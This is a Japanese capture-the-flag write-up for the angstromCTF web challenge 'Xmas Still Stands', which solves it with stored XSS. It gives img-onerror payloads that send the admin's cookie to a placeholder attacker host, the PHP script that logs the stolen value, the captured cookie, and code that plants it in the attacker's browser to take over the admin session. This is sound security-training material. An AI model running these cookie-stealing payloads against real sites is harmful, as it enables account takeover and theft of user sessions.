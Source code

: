 # Xmas Still Stands:Web:50pts
You remember when I said I dropped clam's tables? Well that was on Xmas day. And because I ruined his Xmas, he created the [Anti Xmas Warriors](https://xmas.2020.chall.actf.co/) to try to ruin everybody's Xmas. Despite his best efforts, Xmas Still Stands. But, he did manage to get a flag and put it on his site. Can you get it?  


# Solution
URLにアクセスすると文字列をPostし、それを表示できるようだ。  
Home  
[site1.png](site/site1.png)
Post  
[site2.png](site/site2.png)
Report  
[site3.png](site/site3.png)
Admin  
[site4.png](site/site4.png)
さらに管理人にReportすることでそのPostを削除させることができる。  
XSSで管理人のcookieを盗めばよい(Adminページより)。  
問題の頭文字もXSSである。  
```javascript
<script>alert("actf")</script>
```
をPostしてみるが、alertが表示されないのでonerrorを使用する。  
```javascript
<img src="1" onerror="alert('actf');">
```
無事alertが表示されたので、以下のようなスクリプトを仕込みAdminに削除させる。  
```javascript
<img src="1" onerror="location.href = 'http://www.xxxxx.xxx/hack.php?cookie=' + document.cookie;">
```
今回はphpを以下のように記述した(アクセスログを見るのもよい)。  
```php:hack.php
<?php
$URI = $_SERVER['REQUEST_URI'];
echo $URI;
$fp = fopen("hack.txt", "w");
fwrite($fp, $URI);
fclose($fp);
?>
```
表示されたPostのIDをReportの後、hack.txtに以下のcookieが保存されていた。  
```text:hack.txt
/hack.php?cookie=super_secret_admin_cookie=hello_yes_i_am_admin;%20admin_name=John
```
これを自身のブラウザに設定してやる。  
```javascript
<img src="1" onerror="document.cookie = 'super_secret_admin_cookie=hello_yes_i_am_admin; path=/';">
<img src="1" onerror="document.cookie = 'admin_name=John; path=/';">
```
せっかくXSSがあるならば使おう。  
するとAdminページにflagが表示される。  
Admin_flag  
[flag.png](site/flag.png)

## actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds}